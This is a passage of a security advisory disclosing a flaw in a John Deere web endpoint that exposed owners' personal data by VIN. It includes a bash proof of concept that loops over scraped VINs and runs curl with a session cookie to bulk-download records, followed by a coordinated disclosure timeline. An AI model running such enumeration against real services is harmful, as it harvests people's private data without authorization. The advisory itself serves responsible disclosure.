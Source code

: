 To verify the VIN number is user-bound and not dealership-only data, the researcher conducted a public search to download approximately 150 VIN numbers from a public auction website.

Exact proof of Concept:

Researcher found "=====REDACTED====="

Researcher considers a newer model combine, and selected "=====REDACTED=====" 2020 model.

```bash
sed -i -e s/\r/\n/g WORKING.BULK_VINS_john-deere-"=====REDACTED=====".serials
mapfile < WORKING.BULK_VINS_john-deere-"=====REDACTED=====".serials
cd ./POC/
for VIN in "${MAPFILE[@]}"; do
VIN=$(echo -n $VIN | tr -d '\n\r')
echo "${VIN}"

curl https://terminals.deere.com/equipment-mtm-definition\?vin=${VIN//\n/} -H 'authority: terminals.deere.com' \
-H 'pragma: no-cache' \
-H 'cache-control: no-cache' \
-H 'accept: application/json' \
-H 'user-agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
-H 'dnt: 1' \
-H 'sec-fetch-site: same-origin' \
-H 'sec-fetch-mode: cors' \
-H 'sec-fetch-dest: empty' \
-H 'accept-language: en-US,en;q=0.9' \
-H 'cookie: "=====REDACTED====="' > "${VIN}"
done

```


#### Disclosure Timeline
* **2021-04-12** - Researcher discovers vulnerability containing Personally identifiable information (PII)
* **2021-04-13** - Researcher reports vulnerability
* **2021-04-13** - Vendor confirms report and fowards to appropriate team
* **2021-04-14** - Researcher notifies US-CERT - CISA
* **2021-04-14** - Researcher confirms all Personally identifiable information (PII) is deleted
* **2021-04-16** - Researcher self-validates vulnerability has been mitigated
* **2021-04-16** - Researcher requests co-ordinated joint public disclosure
* **2021-04-16** - Researcher requests a joint release again in a positive way
* **2021-04-20** - Vendor notifies Researcher of newly created private program
* **2021-04-20** - Researcher requests coordinated public disclosure and declines offer of invitation
* **2021-04-21** - Researcher receives VDP invitation, validates its authenticity, leaves VDP invitation

### Links

[https://github.com/sickcodes/security/blob/master/advisories/sick-2021-031.md](https://github.com/sickcodes/security/blob/master/advisories/sick-2021-031.md)
